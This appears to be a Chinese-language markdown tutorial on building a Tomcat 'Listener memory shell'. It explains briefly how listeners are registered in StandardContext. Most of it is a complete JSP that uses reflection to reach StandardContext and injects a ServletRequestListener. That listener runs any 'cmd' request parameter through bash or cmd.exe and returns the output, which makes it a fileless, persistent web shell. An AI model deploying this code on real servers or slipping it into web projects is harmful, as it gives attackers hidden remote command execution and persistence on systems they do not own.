

# Listener内存马

## 1.基础知识


如上图所示，Listener是最先注册调用到的。

## 2.原理分析

如下图所示：



`Listener` 也是保存在 `standardContext` 中,添加方式比 `Filter` 简单。

通过`standardContext.addApplicationEventListener(servletRequestListener);` 就能够

注册监听器。

## 3.代码实现

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    //获取servletContext
    ServletContext servletContext = request.getSession().getServletContext();

    //获取ApplicationContextFacade对象
    Field applicationContextFacadeField = ApplicationContextFacade.class.getDeclaredField("context");
    applicationContextFacadeField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeField.get(servletContext);

    //获取applicationContext对象
    Field applicationContextField = ApplicationContext.class.getDeclaredField("context");
    applicationContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) applicationContextField.get(applicationContext);

    ServletRequestListener servletRequestListener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            System.out.println("requestDestroyed");
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest) sre.getServletRequest();
            if ( servletRequest.getParameter("cmd") != null ){
                try{
                    String os = System.getProperty("os");
                    boolean isLinux = true;
                    if (os != null && os.contains("win")){
                        isLinux = false;
                    }
                    String[] exp = isLinux ? new String[]{"bash","-c",request.getParameter("cmd")} : new String[]{"cmd.exe","/c",request.getParameter("cmd")};
                    InputStream in  = Runtime.getRuntime().exec(exp).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    response.getWriter().write(output);
                    response.getWriter().flush();
                }catch (IOException e){
                    e.printStackTrace();
                }
            }
        }
    };

    standardContext.addApplicationEventListener(servletRequestListener);
    out.println("success...");

%>
```

